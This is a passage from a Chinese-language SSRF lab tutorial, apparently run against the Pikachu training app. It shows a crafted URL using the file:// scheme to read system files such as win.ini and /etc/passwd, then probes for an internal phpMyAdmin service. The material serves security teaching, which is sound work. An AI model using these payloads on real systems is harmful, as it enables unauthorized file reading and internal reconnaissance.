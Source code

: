 ### 2.5.4. file协议

#### 2.5.4.1. file协议解释

file:/// 从文件系统中获取文件内容，如，file:///etc/passwd或者file:///C:/Windows/win.ini，这种URL Schema可以尝试从文件系统中获取文件，注意这里是只能访问靶机系统。

#### 2.5.4.2. file协议案例

```
构建的URL：http://192.168.10.150/pikachu/vul/ssrf/ssrf_curl.php?url=file:///C:/Windows/win.ini
```

![image-20230414083337203](assets/FNAUog3SRQGe4Wk.png)

### 2.5.5. web指纹探测

#### 2.5.5.1. web指纹探测解释

web指纹其实就是测试内部会不会存在一些其他的服务没有对外使用开放的，比如phpMyAdmin等一些应用或者服务。

#### 2.5.5.2. web指纹探测案例

比如我这里就探测了一下靶机是否存在phpMyAdmin数据库管理系统，通过反馈这里是存在的。这里可以不单单可以测试本地，还可以测试其他的IP上是否存在phpMyAdmin数据库管理系统。

```
输入内容：http://192.168.10.150/phpMyAdmin
```
